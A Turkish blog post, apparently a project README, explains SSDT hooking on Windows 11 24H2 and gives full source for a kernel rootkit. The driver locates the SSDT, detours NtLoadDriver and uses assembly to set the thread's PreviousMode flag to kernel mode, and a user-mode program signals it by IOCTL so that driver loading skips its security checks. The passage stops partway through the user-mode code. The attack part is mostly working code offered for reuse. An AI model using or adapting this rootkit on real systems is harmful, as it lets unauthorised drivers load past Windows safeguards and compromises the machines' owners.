




> [!IMPORTANT]
> I also wrote an article about this work in English on Medium, you can click [here]() if you want to take a look.

Merhabalar efenimm bloguma hoşgeldiniz. Bu blogta SSDT Hooking tekniğine bir yakından bakacağız. Bu teknik için hazırladığım proje üzerinden ilerleyeceğiz. Başlıktan gördüğünüz üzere User-Mode programı kullanarak NtLoadDriver ile sürücü yüklemesini sağlayacağız. 

Yine aynı şekilde proje, **User-Mode** ve **Kernel-Mode** olmak üzere iki kısma ayrılıyor. User-Mode programda sadece NtLoadDriver çağırarak sürücüyü yüklemeyi sağlayacağız ardından Rootkit ile User-Mode programın sürücü yüklemeden önce geçmesi gereken güvenlik önlemlerini atlatmasını sağlayacağız; bunun için ise SSDT Hooking'den yararlanacağız. 

Bu konuyu anlatırken SSDT nedir gibi vs. konulara yer vermeyeceğimi burada vurgulamak isterim. Zaten blog sayfamda [**SSDT**](https://0xbekoo.github.io/docs/winkernel-dev/wkd-ssdt/) ve [**Windows Kernel'da Syscall Araştırma Yolculuğum**](https://0xbekoo.github.io/blog/syscalls/) adlı iki çalışmam bulunmakta. Dolayasıyla okuyucunun SSDT konusu üzerine temel bilgileri olduğunu varsayıyorum. 

Hayatımızı mahvetmeye hazırsak başlayalım efenimm!

## SSDT Hooking 

Her şeyden önce bu teknik nedir onu anlayalım. 

Kabaca SSDT Hooking tekniği sistemde yapılan bir syscall'ı farklı rutinlere yönlendirmek veya syscall'ı hooklamak gibi amaçlarla kullanılabilir. Özellikle eskiden anti-virüs yazılımları tarafından kullanılıyordu ancak bu uzun sürmedi. Yani bu teknik ile yapılan syscall'ı gitmesi gereken rutinden farklı bir yere yönlendirebilir veya yapılan syscall'ları hooklayabilirsiniz. Örneğin OpenProcess'i düşünebiliriz. Bu yöntemle SSDT içerisinde oynamalar yaparak NtOpenProcess için bir syscall yapıldığında, ntoskrnl'de NtOpenProcess'e gitmesi gerekirken zararlı bir rutine yönlendirmesini sağlayabilirsiniz.

Açıkçası şunu da vurgulamak isterim ki bu teknik artık benim gözümde eski bir teknik olarak kalıyor çünkü günümüzün windows güvenliğinde bu tekniği uygulamak pek de mümkün değil. 

Geçmişte Anti-virus uygulamarın bu teknikten yararlandığından bahsettim. 2010 yılında bu teknik yüzünden gerçekleşmiş riskli bir olay olmuştu. O zamanlarda SSDT-Hooking tekniğini kullanan birçok anti-virus yazılımları (Aralarında popüler olan BitDefender, F-Secure, Kaspersky Sophos, McAfee ve Trend Micro gibi şirketlerde bulunmakta) yüzünden windows sistemlerde güvenlik açığı yaratmıştı. Bu olaydan sonra Microsoft, kernel için güvenlik önlemlerini daha da sıkılaştırdı.

## Proje


Projede, User-Mode program'ın çağırdığı NtLoadDriver içerisinde güvenlik kontrollerini atlatmasını amaçladım. 

User-Mode programı NtLoadDriver'ı çağırmadan önce trambolin eklemek için rootkit ile iletişime geçiyor. Daha sonra User-Mode programı NtLoadDriver'ı çağırıyor. Ardından yapılan Syscall HookedNtLoadDriver'a (Rootkit'in İşlevi) yönlendirilir. Bunun nedeni, kullanıcı modu programının gireceği güvenliği atlamaktır. Rootkit, KPCR->PreviousMode Bayrağını değiştirir ve NtLoadDriver'ın orijinal opcode'larını geri yükler ve NtLoadDriver'ı çağırır. 

Bu durumda bana şunu sorabilirsiniz: “Neden NtLoadDriver?” Dürüst olmak gerekirse, NtLoadDriver'ı birkaç gün araştırıyordum ve NtLoadDriver'ı araştırırken SSDT Hooking ile tanıştım. Sonra bu iki çalışmayı birleştirmeye karar verdim.

### PreviousMode Bayrağı

> "Bir kullanıcı modu uygulaması, yerel sistem hizmeti rutinlerinin Nt veya Zw sürümlerinden birini çağırdığında, sistem çağrı mekanizması bu iş parçacığını (thread) çekirdek moduna geçirir. Sistemin, parametrelerin kullanıcı modundan geldiğini anlaması için, sistem çağrısını yöneten trap handler, çağrıyı yapan iş parçacığının nesnesindeki PreviousMode alanını UserMode olarak ayarlar." ~ [Microsoft Learn - PreviousMode](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/previousmode)

Eğer **Windows Kernel'da Syscall Araştırma Yolculuğum** blogunu okumuşsanız KPCR yapısı hakkında bilgi vermiştim. PreviousMode bayrağı bu yapı içerisindedir. Peki ama nedir bu?

Açıklamadan görebileceğiniz üzere yapılan işlemin User-Mode tarafından mı yoksa Kernel-Mode tarafından mı yapıldığını gösteren bir bayraktır ve bu PreviousMode bayrağı sadece 1 veya 0 değerleri alır:

- **0 -** Yapılan işlemin Kernel-Mode tarafından yapıldığını gösterir. 
- **1 -** Yapılan işlemin User-Mode tarafından yapıldığını gösterir.

Esasen, kullanılmak istenilen Zw/Nt fonksiyonu çalıştırılmadan önce gönderilen parametrelerin User-Mode mu yoksa Kernel-Mode'dan mı gönderildiği belirtilmesi gerekir. Bunu belirtmek için ise PreviousMode bayrağı ayarlanır.

### NtLoadDriver'ın Analiz Edilmesi

Diyagramı tekrar kontrol ederseniz, projenin NtLoadDriver'ı çalıştırmadan önce PreviousMode bayrağını değiştirdiğini görebilirsiniz. PreviousMode bayrağını değiştirme nedenimiz yukarıdaki nedenle alakalı olsa da farklı bir nedeni daha da bulunmakta. Araştırmalarımı paylaştığımda nedenini daha iyi anlayacaksınız.

NtLoadDriver fonksiyonuna göz atarsanız IopLoadDriverImage'ı çağırdığını görebilirsiniz:



Sürücünün yüklemeden önce bahsi geçen PreviousMode bayrağın kontrol edildiğini göreceksiniz:



0x188 offset'i KPCR'e işaret eder. KPCR alındıktan sonra KPCR'de PreviousMode (0x232'e işaret eder) bayrağını alır ve kontrol eder. 

Bu kısımda ise sürücüyü yükleyenin Kernel-Mode yetkilisi mi yoksa User-Mode yetkilisi mi olduğunu kontrol ediyor. Burada esasen, eğer yetki Kernel-Mode ise güvenlik önlemlerini atlayarak direkt olarak sürücüyü yüklüyor ancak yetki User-Mode ise güvenlik kontrollerine atlıyor:



Yani kısaca ne yapacağımızı anlamışsınızdır. User-Mode'ın yaptığı syscall'ı rootkit'in fonksiyonuna yönlendireceğiz ve PreviousMode bayrağını 0 olarak ayarlayıp ardından NtLoadDriver'a yönlendireceğiz.

## Code
- **Windows Version: Windows 11 24H2**
- **OS Build: 26100.2894**

Projenin tam haline göz atmak isterseniz [bu github linkine](https://github.com/0xbekoo/SSDT-Hooking) tıklayabilirsiniz.

### Kernel-Mode Driver

```c
#include "main.h"
#include "hook.h"

#define SSN_NTLOADDRIVER 0x10E

PVOID g_NtLoadDriverAddress = NULL;

NTSTATUS HookedNtLoadDriver(PUNICODE_STRING DriverServiceName) {
 UNICODE_STRING UserBuffer;
 BOOLEAN PreviousStatus = FALSE;

 HkRestoreFunction((PVOID)g_NtLoadDriverAddress, (PVOID)OriginalNtLoadDriver);

 UserBuffer.Buffer = ExAllocatePoolWithTag(NonPagedPool, DriverServiceName->Length, 'buff');
 if (UserBuffer.Buffer == NULL) {
  return STATUS_INSUFFICIENT_RESOURCES;
 }
 UserBuffer.Length = DriverServiceName->Length;
 UserBuffer.MaximumLength = DriverServiceName->Length;

 RtlCopyMemory(UserBuffer.Buffer, DriverServiceName->Buffer, DriverServiceName->Length);
 DbgPrintEx(0, 0, "Driver: %wZ\n", &UserBuffer);

 PreviousStatus = ChangePreviousMode(0);
 if (!PreviousStatus) {
  return STATUS_UNSUCCESSFUL;
 }

 _NtLoadDriver NtLoadDriver = (_NtLoadDriver)g_NtLoadDriverAddress;
 NTSTATUS Status = NtLoadDriver(&UserBuffer);
 if (!NT_SUCCESS(Status)) {
  goto Clean;
 }

Clean:
 PreviousStatus = ChangePreviousMode(1);
 if (!PreviousStatus) {
        if (Status == 0) {
   Status = STATUS_UNSUCCESSFUL;
        }
 }

 ExFreePoolWithTag(UserBuffer.Buffer, 'buff');
 return Status;
}

PVOID GetSSDTAddress(PVOID KeAddSystemServiceAddr) {
 /*
  ------------------
  kd> u nt!KeAddSystemServiceTable+0xbd L1
  nt!KeAddSystemServiceTable+0xbd:
  fffff800`aae7bdcd 48391d0c5b7800  cmp     qword ptr [nt!KeServiceDescriptorTable+0x20 (fffff800`ab6018e0)],rbx
  ------------------
  
  We will dynamically obtain the address of the SSDT by reading the opcodes at this address by the KeAddSystemServiceTable address.

 */
 PVOID AddressToRead = NULL;
 PVOID NewAddress = NULL;
 PBYTE Instruction = (PBYTE)KeAddSystemServiceAddr + 0xbd;

 /* Get Offset Address */
 DWORD OffsetAddress = *(PDWORD)(Instruction + 3);

 /* Calculate RIP */
 UINT_PTR rip = (UINT_PTR)Instruction + 7;

 /* Add Offset Address to RIP */
 AddressToRead = (PVOID)(rip + (INT32)OffsetAddress);

 /* Get Absolute Address */
 AddressToRead = (PVOID)((PBYTE)AddressToRead - 0x20);

 NewAddress = GetAddress(AddressToRead);

 return NewAddress;
}

NTSTATUS IoCreateClose(PDEVICE_OBJECT DeviceObject, PIRP Irp) {
 UNREFERENCED_PARAMETER(DeviceObject);

 PIO_STACK_LOCATION Stack = IoGetCurrentIrpStackLocation(Irp);
 NTSTATUS status = STATUS_SUCCESS;

 switch (Stack->MajorFunction) {

 case IRP_MJ_CREATE:
  Irp->IoStatus.Status = STATUS_SUCCESS;
  break;

 case IRP_MJ_CLOSE:
  Irp->IoStatus.Status = STATUS_SUCCESS;
  break;

 default:
  status = STATUS_INVALID_DEVICE_REQUEST;
  break;
 }
 Irp->IoStatus.Information = 0;
 IoCompleteRequest(Irp, IO_NO_INCREMENT);

 return Irp->IoStatus.Status;
}

NTSTATUS IoControl(PDEVICE_OBJECT DeviceObject, PIRP Irp) {
 UNREFERENCED_PARAMETER(DeviceObject);

 PIO_STACK_LOCATION Stack = IoGetCurrentIrpStackLocation(Irp);
 BOOLEAN Value;
 switch (Stack->Parameters.DeviceIoControl.IoControlCode) {

 case IOCTL_BYPASS_PREVIOUS_MODE:
  Value = *(PBOOLEAN)Irp->AssociatedIrp.SystemBuffer;
  if (!Value) {
   Irp->IoStatus.Status = STATUS_INVALID_DEVICE_REQUEST;
   Irp->IoStatus.Information = 0;
   break;
  }
  DbgPrintEx(0, 0, "IOCTL code received (IOCTL_BYPASS_PREVIOUS_MODE)\n");

  HkDetourFunction((PVOID)g_NtLoadDriverAddress, (PVOID)HookedNtLoadDriver, 20, (PVOID*)&OriginalNtLoadDriver);

  Irp->IoStatus.Status = STATUS_SUCCESS;
  Irp->IoStatus.Information = 0;
  break;

 default:
  Irp->IoStatus.Status = STATUS_INVALID_DEVICE_REQUEST;
  Irp->IoStatus.Information = 0;
  break;
 }
 IoCompleteRequest(Irp, IO_NO_INCREMENT);

 return Irp->IoStatus.Status;
}

VOID UnloadDriver(PDRIVER_OBJECT DriverObject) {
 UNREFERENCED_PARAMETER(DriverObject);

 UNICODE_STRING SymName = RTL_CONSTANT_STRING(L"\\??\\MyDriverr");
 DbgPrintEx(0, 0, "Unloading the Driver...\n");

 IoDeleteSymbolicLink(&SymName);
 IoDeleteDevice(DriverObject->DeviceObject);

 DbgPrintEx(0, 0, "Driver Unloaded!\n");
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath) {
 UNREFERENCED_PARAMETER(RegistryPath);
 UNICODE_STRING DeviceName = RTL_CONSTANT_STRING(L"\\Device\\MyDriverr");
 UNICODE_STRING SymName = RTL_CONSTANT_STRING(L"\\??\\MyDriverr");
 PDEVICE_OBJECT DeviceObject;
 NTSTATUS Status;

 Status = IoCreateDevice(DriverObject, 0, &DeviceName, FILE_DEVICE_UNKNOWN, 0, FALSE, &DeviceObject);
 if (!NT_SUCCESS(Status)) {
  DbgPrintEx(0, 0, "Failed to Create I/O Device!\n");
  return Status;
 }

 Status = IoCreateSymbolicLink(&SymName, &DeviceName);
 if (!NT_SUCCESS(Status)) {
  DbgPrintEx(0, 0, "Failed to Create Symbolic Link!\n");
  return Status;
 }

 UNICODE_STRING KeAddSystemString;
 PVOID fKeAddSystemAddress = NULL;
 RtlInitUnicodeString(&KeAddSystemString, L"KeAddSystemServiceTable");

 fKeAddSystemAddress = (PVOID)MmGetSystemRoutineAddress(&KeAddSystemString);
 DbgPrintEx(0, 0, "KeAddSystemServiceTable Address: 0x%p\n", fKeAddSystemAddress);

 PVOID SSDTAddress = GetSSDTAddress(fKeAddSystemAddress);
 DbgPrintEx(0, 0, "SSDT Address: 0x%p\n", SSDTAddress);

 UINT32 Offset = *(PUINT32)((PUCHAR)SSDTAddress + 4 * SSN_NTLOADDRIVER);
 DbgPrintEx(0, 0, "Offset: 0x%x\n", Offset);

 g_NtLoadDriverAddress = (PVOID)((PUCHAR)SSDTAddress + (Offset >> 4));
 DbgPrintEx(0, 0, "NtLoadDriver Address: 0x%p\n\n", g_NtLoadDriverAddress);

 DriverObject->MajorFunction[IRP_MJ_CREATE] = IoCreateClose;
 DriverObject->MajorFunction[IRP_MJ_CLOSE] = IoCreateClose;
 DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = IoControl;
 DriverObject->DriverUnload = UnloadDriver;

 return STATUS_SUCCESS;
}
```

Kodlarımız bu şekilde. Şimdi ise DriverEntry'den başlayalım:

```c
UNICODE_STRING KeAddSystemString;
 PVOID fKeAddSystemAddress = NULL;
 RtlInitUnicodeString(&KeAddSystemString, L"KeAddSystemServiceTable");

 fKeAddSystemAddress = (PVOID)MmGetSystemRoutineAddress(&KeAddSystemString);
 DbgPrintEx(0, 0, "KeAddSystemServiceTable Address: 0x%p\n", fKeAddSystemAddress);

 PVOID SSDTAddress = GetSSDTAddress(fKeAddSystemAddress);
 DbgPrintEx(0, 0, "SSDT Address: 0x%p\n", SSDTAddress);
```

Burada yaptığım şey, SSDT adresini alan fonksiyona KeAddSystemServiceTable'ın adresini vermem, uzaktan bakıldığında garip görünebilir. Ancak burada yapılan şey esasen şu:

```c
PVOID GetSSDTAddress(PVOID KeAddSystemServiceAddr) {
 /*
  ------------------
  kd> u nt!KeAddSystemServiceTable+0xbd L1
  nt!KeAddSystemServiceTable+0xbd:
  fffff800`aae7bdcd 48391d0c5b7800  cmp     qword ptr [nt!KeServiceDescriptorTable+0x20 (fffff800`ab6018e0)],rbx
  ------------------
  
  We will dynamically obtain the address of the SSDT by reading the opcodes at this address by the KeAddSystemServiceTable address.

 */
 PVOID AddressToRead = NULL;
 PVOID NewAddress = NULL;
 PBYTE Instruction = (PBYTE)KeAddSystemServiceAddr + 0xbd;

 /* Get Offset Address */
 DWORD OffsetAddress = *(PDWORD)(Instruction + 3);

 /* Calculate RIP */
 UINT_PTR rip = (UINT_PTR)Instruction + 7;

 /* Add Offset Address to RIP */
 AddressToRead = (PVOID)(rip + (INT32)OffsetAddress);

 /* Get Absolute Address */
 AddressToRead = (PVOID)((PBYTE)AddressToRead - 0x20);

 NewAddress = GetAddress(AddressToRead);

 return NewAddress;
}
```

Windows 11 24h2 içerisinde KeAddSystemServiceTable reverse ettikten sonra hedef aldığımız bir instruction ile SSDT'nin adresini okuyorum - opcode aracılığıyla -. Zaten bunu yorum satırında gösterdim. 

Hedef aldığım kısımda SSDT'nin+0x20 adresi ile rbx'nin değeri kontrol edilmekte. Benimde kafama çok basit bir yöntem geldi ve madem SSDT'nin adresi kullanılıyor, bende opcode'ları okuyarak adresini elde etmeye karar verdim. Basit olduğunun farkındayım. Eğer bu konuya yakından araştırmak isterseniz [Medium makaleme](https://medium.com/@0xbekoo/finding-ssdt-address-with-driver-c8b6bb60d722) göz atabilirsiniz.

```c
UINT32 Offset = *(PUINT32)((PUCHAR)SSDTAddress + 4 * SSN_NTLOADDRIVER);
 DbgPrintEx(0, 0, "Offset: 0x%x\n", Offset);

 g_NtLoadDriverAddress = (PVOID)((PUCHAR)SSDTAddress + (Offset >> 4));
 DbgPrintEx(0, 0, "NtLoadDriver Address: 0x%p\n\n", g_NtLoadDriverAddress);
```

SSDT'nin adresini aldıktan sonra ise bilinen formüller aracılığıyla NtLoadDriver'ın adresini hesaplıyoruz. Formüllerimizi unutmayalım. 

```c
NTSTATUS IoControl(PDEVICE_OBJECT DeviceObject, PIRP Irp) {
 UNREFERENCED_PARAMETER(DeviceObject);

 PIO_STACK_LOCATION Stack = IoGetCurrentIrpStackLocation(Irp);
 BOOLEAN Value;
 switch (Stack->Parameters.DeviceIoControl.IoControlCode) {

 case IOCTL_BYPASS_PREVIOUS_MODE:
  Value = *(PBOOLEAN)Irp->AssociatedIrp.SystemBuffer;
  if (!Value) {
   Irp->IoStatus.Status = STATUS_INVALID_DEVICE_REQUEST;
   Irp->IoStatus.Information = 0;
   break;
  }
  DbgPrintEx(0, 0, "IOCTL code received (IOCTL_BYPASS_PREVIOUS_MODE)\n");

  HkDetourFunction((PVOID)g_NtLoadDriverAddress, (PVOID)HookedNtLoadDriver, 20, (PVOID*)&OriginalNtLoadDriver);

  Irp->IoStatus.Status = STATUS_SUCCESS;
  Irp->IoStatus.Information = 0;
  break;

 default:
  Irp->IoStatus.Status = STATUS_INVALID_DEVICE_REQUEST;
  Irp->IoStatus.Information = 0;
  break;
 }
 IoCompleteRequest(Irp, IO_NO_INCREMENT);

 return Irp->IoStatus.Status;
}
```

Daha sonra IoControl fonksiyonu altında User-Mode programın göndereceği **IOCTL_TRAMPOLINE** kodunu işliyoruz. Burada gözünüze **HkDetourFunction** çarpması lazım çünkü NtLoadDriver'ın adresine trambolini yerleştiren fonksiyon bu.

Fakat bu HkDetourFunction kodları bana ait değil. Özellikle son zamanlarda bu trambolini yerleştirmek için baya uğraşsam da gerçekten BSOD almaktan delirdim ve hazır almaya karar verdim. Orijinal github repo için [buraya](https://github.com/adrianyy/kernelhook) tıklayabilirsiniz.  

```c
NTSTATUS HookedNtLoadDriver(PUNICODE_STRING DriverServiceName) {
 UNICODE_STRING UserBuffer;
 BOOLEAN PreviousStatus = FALSE;

 HkRestoreFunction((PVOID)g_NtLoadDriverAddress, (PVOID)OriginalNtLoadDriver);

 UserBuffer.Buffer = ExAllocatePoolWithTag(NonPagedPool, DriverServiceName->Length, 'buff');
 if (UserBuffer.Buffer == NULL) {
  return STATUS_INSUFFICIENT_RESOURCES;
 }
 UserBuffer.Length = DriverServiceName->Length;
 UserBuffer.MaximumLength = DriverServiceName->Length;

 RtlCopyMemory(UserBuffer.Buffer, DriverServiceName->Buffer, DriverServiceName->Length);
 DbgPrintEx(0, 0, "Driver: %wZ\n", &UserBuffer);

 PreviousStatus = ChangePreviousMode(0);
 if (!PreviousStatus) {
  return STATUS_UNSUCCESSFUL;
 }

 _NtLoadDriver NtLoadDriver = (_NtLoadDriver)g_NtLoadDriverAddress;
 NTSTATUS Status = NtLoadDriver(&UserBuffer);
 if (!NT_SUCCESS(Status)) {
  goto Clean;
 }

Clean:
 PreviousStatus = ChangePreviousMode(1);
 if (!PreviousStatus) {
        if (Status == 0) {
   Status = STATUS_UNSUCCESSFUL;
        }
 }

 ExFreePoolWithTag(UserBuffer.Buffer, 'buff');
 return Status;
}
```

Büyünün gerçekleştiği asıl kısma geldik. Bu fonksiyon ise artık yapılan syscall'ı yönlendirdiğimiz fonksiyon. 

Öncelikle HkDetourFunction ile NtLoadDriver için eklediğimiz trambolini kaldırıyoruz ve orijinal kodlarını geri getiriyoruz. Daha sonra User-Mode programından aldığımız parametreyi kernel space'a aktarıyoruz. Bu önemlidir ve PreviousMode konusuyla ilgilidir. 

Hatırlayalım, PreviousMode bayrağı, yapılan işlemin Kernel-Mode yetkilisi mi yoksa User-Mode yetkilisi mi olduğunu belirlemek için kullanıyorduk, değil mi? Ve projemizde amacımız bu PreviousMode bayrağını manipüle etmek. 

PreviousMode bayrağı ise User-Mode programın syscall işleminden sonra 1 (User-Mode) değeri alacağını biliyoruz. Rootkit tarafından direkt olarak 0 (Kernel-Mode) olarak ayarlayıp daha sonrasında User-Mode parametresi gönderirsek, Patchguard abimiz racon kesmeye başlayacaktır:



BSOD nedeninin **PREVIOUS MODE MISMATCH** olduğuna dikkat edelim. Bu hata bize PreviousMode bayrağıyla ilgili çakışma olduğunu gösterir.

```c
 PreviousStatus = ChangePreviousMode(0);
 if (!PreviousStatus) {
  return STATUS_UNSUCCESSFUL;
 }
```

Daha sonra **ChangePreviousMode** fonksiyonu çağırılıyor. Bu ise Assembly projemde yer alan bir fonksiyondur:

```c
; /*
; 
; BOOLEAN ChangePreviousMode(
;	_in_ int Mode
; );
;
; */
ChangePreviousMode PROC
	; In PreviousMode we have 0 for KernelMode and 1 for UserMode.
	; It means, we can only change the PreviousMode to 0 or 1.

	cmp rcx,0			; Check if the Mode is Kernel Mode (0)
	jz ChangePrevious

	cmp rcx,1			; Check if the Mode is User Mode (1)
	jz ChangePrevious

	; If the Mode is not 0 or 1, return FALSE
	xor rax,rax
	jmp Return 

ChangePrevious:
	push rdx 
	
	; We need to get the KPCR because the KPCR contains the PreviousMode
	mov rdx,qword ptr gs:[188h]

	; The 0x232 offset is point to the PreviousMode in the KPCR
	mov byte ptr [rdx+232h],cl
	pop rdx

	mov rax,1

Return:
	ret
ChangePreviousMode ENDP
```

Araştırmalarımızdan sonra bu Assembly kodlarının artık ne yaptığını biliyoruz. Ancak kısaca özet geçmek gerekirse, 0x188 offset'ine işaret eden KPCR yapısını alıyoruz ve bu yapıda 0x232 offset'ine işaret eden PreviousMode bayrağına cl'in değerini veriyoruz. Bu register ise gönderilen parametreyi tutar. Şuan ki kodumuzda 0 gönderdiğimizden bu bayrağı Kernel-Mode olarak ayarlayacaktır.

```c
 _NtLoadDriver NtLoadDriver = (_NtLoadDriver)g_NtLoadDriverAddress;
 NTSTATUS Status = NtLoadDriver(&UserBuffer);
 if (!NT_SUCCESS(Status)) {
  goto Clean;
 }

Clean:
 PreviousStatus = ChangePreviousMode(1);
 if (!PreviousStatus) {
        if (Status == 0) {
   Status = STATUS_UNSUCCESSFUL;
        }
 }

 ExFreePoolWithTag(UserBuffer.Buffer, 'buff');
 return Status;
}
```

Son olarak ise SSDT ile elde ettiğimiz NtLoadDriver'ın adresini çağırıyoruz ve NtLoadDriver çağırıldıktan sonra PreviousMode bayrağını tekrar 1 (User-Mode) haline getirerek işlemleri bitiriyoruz. 

### User-Mode Program

User-Mode programın kodları basit ve bu yüzden kısa tutacağım:

```c
#include "main.h"

int main(int argc, char* argv[]) {
 NtLoadDriver _NtLoadDriver;
 HANDLE HandleDevice = NULL;
 HMODULE NTDLL = NULL;
 UNICODE_STRING DriverServiceName;
 DWORD OutputBytesReturned = 0;
 BOOL Result = 0;
 DWORD dwExitCode = EXIT_SUCCESS;
 NTSTATUS Status = 0;
 
 RtlInitUnicodeString(&DriverServiceName, L"\\Registry\\Machine\\System\\CurrentControlSet\\Services\\yourdriver");

 HandleDevice = CreateFile(DEVICE_NAME, GENERIC_WRITE | GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
 if (INVALID_HANDLE_VALUE == HandleDevice) {
  printf("Failed to connect Driver! Error Code: 0x%lx\n", GetLastError());

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }

 BOOLEAN bValue = TRUE;
 Result = DeviceIoControl(HandleDevice, IOCTL_BYPASS_PREVIOUS_MODE, &bValue, sizeof(bValue), NULL, 0, &OutputBytesReturned, NULL);
 if (!Result) {
  printf("Failed to IOCTL Code!\n");

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }

 NTDLL = GetModuleHandleA("ntdll.dll");
 if (NULL == NTDLL) {
  printf("Failed to get address of NTDLL!\n");

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }
 printf("NTDLL: 0x%p\n", NTDLL);

 _NtLoadDriver = (NtLoadDriver)GetProcAddress(NTDLL, "NtLoadDriver");
 if (NULL == _NtLoadDriver) {
  printf("Failed to get address of NtLoadDriver!\n");

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }
 printf("NtLoadDriver: 0x%p\n", _NtLoadDriver);

 Status = _NtLoadDriver(&DriverServiceName);
 if (Status != 0) {
  if (Status == 0xc000010e) {
   printf("The driver is already loaded\n");

   dwExitCode = EXIT_SUCCESS;
   goto Exit;
  }
  printf("Failed to Load Driver! Error Code: 0x%08x\n", Status);

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }
 printf("The driver was installed successfully\n");
 dwExitCode = EXIT_SUCCESS;

Exit:
 if (NTDLL) {
  FreeLibrary(NTDLL);
 }
 if (HandleDevice) {
  CloseHandle(HandleDevice);
 }

 return dwExitCode;
}
```

Kodlarımız bu şekilde. Kabaca ne yapıldığını anlamışsınızdır. Rootkit ile iletişim kuruyoruz ardından NTDLL'den NtLoadDriver'ın adresini alıp çağırıyoruz. 

```c
HandleDevice = CreateFile(DEVICE_NAME, GENERIC_WRITE | GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
 if (INVALID_HANDLE_VALUE == HandleDevice) {
  printf("Failed to connect Driver! Error Code: 0x%lx\n", GetLastError());

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }

BOOLEAN bValue = TRUE;
 Result = DeviceIoControl(HandleDevice, IOCTL_BYPASS_PREVIOUS_MODE, &bValue, sizeof(bValue), NULL, 0, &OutputBytesReturned, NULL);
 if (!Result) {
  printf("Failed to IOCTL Code!\n");

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }
```

İlk olarak burada, trambolini yerleştirmesi için rootkit ile iletişim kuruyoruz. 

```c
NTDLL = GetModuleHandleA("ntdll.dll");
 if (NULL == NTDLL) {
  printf("Failed to get address of NTDLL!\n");

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }
 printf("NTDLL: 0x%p\n", NTDLL);

 _NtLoadDriver = (NtLoadDriver)GetProcAddress(NTDLL, "NtLoadDriver");
 if (NULL == _NtLoadDriver) {
  printf("Failed to get address of NtLoadDriver!\n");

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }
 printf("NtLoadDriver: 0x%p\n", _NtLoadDriver);

 Status = _NtLoadDriver(&DriverServiceName);
 if (Status != 0) {
  if (Status == 0xc000010e) {
   printf("The driver is already loaded\n");

   dwExitCode = EXIT_SUCCESS;
   goto Exit;
  }
